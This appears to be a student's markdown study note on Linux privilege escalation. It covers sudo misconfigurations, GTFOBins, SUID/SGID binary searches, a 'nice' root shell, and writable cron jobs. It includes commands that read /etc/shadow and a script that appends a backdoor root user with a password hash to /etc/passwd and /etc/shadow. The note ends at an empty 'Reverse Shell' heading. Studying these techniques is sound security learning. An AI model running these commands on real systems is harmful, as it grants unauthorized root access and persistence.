









# Day 9 - Linux Priviledge Escalate


## General Com

[TOC]

## mands

To find the binaries we can use as sudo

```bash
sudo -l
```



We can use GTFOBins to see what we can utilize with this binary. For the example, we can run sudo with /usr/bin/apt-get

```
https://gtfobins.github.io/
```

We search for apt-get and find this:



Now, in a new user, we check sudo -l again



We can cat multiple files using this loophole:

```bash
sudo cat /var/log/syslog /etc/shadow
# Will cat two files, one which requires privledges you usually don't have
```


## SUID/SGID

We can use SUID 'bit' set binaries to run them as if we were sudo. It's like running 'sudo /bin/ping' (or whatever binary) without the sudo. 

```bash
# Search for SUID bit set binaries - user level
find / -perm /4000 -type f 2>/dev/null -exec ls -l {} \;
```



```bash
# Search for SGID bit set binaries - gorup level
find / -type f -perm /2000 -ls 2>/dev/null -exec ls -l {} \;
```



We need to identify a binary we can use here to escalate our privileges. Basically, look at them one by one, find a weird one, or a known one, and research within GTFOBins. [GTFOBins](https://gtfobins.github.io/)



When we find the right binary, we run the priv escalation command we find in GTFOBins. 

Below, we notice the binary nice can be exploited.





Lets try it. 

```bash
./nice /bin/bash -p # We use bash instead of sh to get a bash shell
# The command must be run in the same area as the binary, at least for this binary
```



Root!

## cronjobs

We can utilize some improperly configured cronjobs to potentially find a way to escalate our privileges. 

First, we can look at all the files that are being run by cronjobs:

```bash
find /var/spool/cron/crontabs /etc/cron* -writable -ls
```

We can edit the files written by cronjobs to add in a script that can privledge escalate.

```bash
sudo usermod -aG sudo *username* #This would allow you to use sudo on all, but would still need a password
```

 Here's some good stuff to add to create a root level user as 'newroot' with password as password

```bash
#!/bin/bash
echo "newroot:x:0:0:root:/root:/bin/bash" >> /etc/passwd
echo 'newroot:$6$GwovNMC9$hGuDZBKjLwZMSTyhfQOAo7HWQZI0u6lCTX3yLoU3fEqUqq2bM3RAZp0gm/VuTF/oCfQ5rSyTbixIteWeRtPrU1:20460:::' >> /etc/shadow
```

## World Writable

Files that are 'world writable' can be exploited by you if they have relevance to persistence. e.g., if the cronjob file is writeable, you can add in a malicious command to escalate privileges. 

```bash
find / -type f -writable -o -type d -writable 2>/dev/null
```

Sometimes you can find some juicy world writeable files. 


## Reverse Shell


